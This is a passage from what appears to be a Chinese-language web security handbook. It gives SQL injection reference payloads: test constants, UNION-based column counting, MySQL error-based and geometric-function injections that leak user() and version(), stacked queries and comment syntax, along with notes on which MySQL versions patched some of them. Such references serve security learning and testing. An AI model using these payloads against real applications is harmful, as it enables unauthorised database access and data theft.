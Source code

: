 ## 3.1.2.3. 测试用常量

- `@@version`
- `@@servername`
- `@@language`
- `@@spid`

## 3.1.2.4. 测试列数

例如 `http://www.foo.com/index.asp?id=12+union+select+nulll,null--` ，不断增加 `null` 至不返回

## 3.1.2.5. 报错注入

- `select 1/0`
- `select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a`
- `extractvalue(1, concat(0x5c,(select user())))`
- `updatexml(0x3a,concat(1,(select user())),1)`
- `exp(~(SELECT * from(select user())a))`
- `ST_LatFromGeoHash((select * from(select * from(select user())a)b))`
- `GTID_SUBSET(version(), 1)`

### 3.1.2.5.1. 基于geometric的报错注入

- `GeometryCollection((select * from (select * from(select user())a)b))`
- `polygon((select * from(select * from(select user())a)b))`
- `multipoint((select * from(select * from(select user())a)b))`
- `multilinestring((select * from(select * from(select user())a)b))`
- `LINESTRING((select * from(select * from(select user())a)b))`
- `multipolygon((select * from(select * from(select user())a)b))`

其中需要注意的是，基于exp函数的报错注入在MySQL 5.5.49后的版本已经不再生效，具体可以参考这个 [commit 95825f](https://github.com/mysql/mysql-server/commit/95825fa28a7e84a2f5dbdef5241078f7055c5b04) 。

而以上列表中基于geometric的报错注入在这个 [commit 5caea4](https://github.com/mysql/mysql-server/commit/5caea4a995130cd7c82574acc591ff7c46d9d978) 中被修复，在5.5.x较后的版本中同样不再生效。

## 3.1.2.6. 堆叠注入

- `;select 1`

## 3.1.2.7. 注释符

- `#`
- `--+`
- `/*xxx*/`
- `/*!xxx*/`
- `/*!50000xxx*/`

## 3.1.2.8. 判断过滤规则
